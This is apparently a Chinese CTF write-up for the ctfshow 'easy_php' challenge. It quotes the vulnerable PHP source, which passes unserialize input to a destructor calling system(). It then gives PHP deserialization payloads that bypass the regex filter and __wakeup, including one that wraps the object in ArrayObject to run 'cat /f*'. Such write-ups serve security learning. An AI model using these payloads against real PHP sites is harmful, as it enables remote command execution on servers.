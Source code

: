## easy_php

题目源码如下

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2023-03-24 10:16:33
# @Last Modified by:   h1xa
# @Last Modified time: 2023-03-25 00:25:52
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/

error_reporting(0);
highlight_file(__FILE__);

class ctfshow{

    public function __wakeup(){
        die("not allowed!");
    }

    public function __destruct(){
        system($this->ctfshow);
    }

}

$data = $_GET['1+1>2'];

if(!preg_match("/^[Oa]:[\d]+/i", $data)){
    unserialize($data);
}

?>
```

一开始想的是通过填充恶意字符 bypass 没打通，但是在本地是可以的

```php
$temp = new ctfshow();
$temp->ctfshow = 'whoami';
echo serialize($temp);
```

生成的 payload 为 `O:7:"ctfshow":1:{s:7:"ctfshow";s:6:"whoami";}`，填充加号进去，所以 payload 就成为了

```php
O:%2B7:"ctfshow":1:{s:7:"ctfshow";s:6:"whoami";}
```

但是题目环境没打通，发现其实是 PHP 版本问题，所以换了一种打法。

{% asset_img easy_phpLocal.png %}

- 题目目前是正则匹配不了 `O`，也就是类，但是我们要去反序列化，没办法避开这点，这就用到了最开始反序列化的时候学过的骚姿势，用 ArrayList bypass

考点：PHP7.3 `__wakeup` 绕过，ArrayObject 内置类
众所周知可以使用C进行绕过wakeup，但这样有一个缺点，就是你把O改为C后是没办法有属性的，那假如需要用属性命令执行就不行了
这种情况我们可以用内置类 **ArrayObject**

payload 如下

```php
$a=new ctfshow;
$a->ctfshow="cat /f*";
$arr=array("temp"=>$a);
$oa=new ArrayObject($arr);
$res=serialize($oa);
echo $res;
```

打通了

{% asset_img easy_php_flag.png %}

